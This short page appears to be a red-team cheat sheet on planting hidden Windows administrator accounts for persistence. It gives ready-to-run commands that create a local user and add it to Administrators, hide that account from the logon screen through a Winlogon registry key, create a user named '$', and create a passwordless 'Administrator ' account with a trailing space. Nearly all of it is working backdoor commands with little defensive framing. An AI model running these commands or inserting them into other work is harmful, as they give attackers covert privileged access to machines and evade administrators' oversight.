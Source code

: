 # Add User

## <mark style="color:red;">Hide From Logon Screen</mark>

Creating User and Adding to Local Administrators

```
net user spotless spotless /add & net localgroup Administrators spotless /add
```

Hide Newly Created Local administrator

{% hint style="danger" %}
This will only hide the username from winlogon screen (windows login GUI screen),  but the user can be detected with <mark style="color:green;">`net user`</mark>` ``` command
{% endhint %}

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /v spotless /d 0 /f
```

## <mark style="color:red;">Create a Hidden User Called "$"</mark>

Creating a user with a username containing "$"

```
net user $ ATOMIC123! /add /active:yes
```

## <mark style="color:red;">Create an "Administrator " user (with a space on the end)</mark>

```
New-LocalUser -Name "Administrator " -NoPassword
```
